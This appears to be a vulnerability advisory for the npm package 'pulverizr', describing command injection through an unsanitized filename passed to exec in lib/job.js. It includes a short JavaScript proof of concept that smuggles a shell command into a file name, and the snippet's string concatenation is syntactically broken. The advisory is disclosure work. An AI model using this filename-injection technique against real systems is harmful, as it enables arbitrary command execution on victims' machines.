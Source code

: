 # Overview

`pulverizr` is a to smash your images down to size, this package is vulnerable to Command Injection.

Within `lib/job.js`, the variable filename can be controlled by the attacker. This function uses the variable filename to construct the argument of the exec call without any sanitization.

In order to successfully exploit this vulnerability, an attacker will need to create a new file with the same name as the attack command.

# Proof of Concept

```
var root = require("pulverizr");
var fs = require("fs");
var attack_code = "touch Song";

var injection_code = "\"&" attack_code "&\"a.jpg"
var inputs = [injection_code]
fs.writeFile(injection_code, "123", function(){});

var job = root.createJob(inputs, {});
job.run();
```
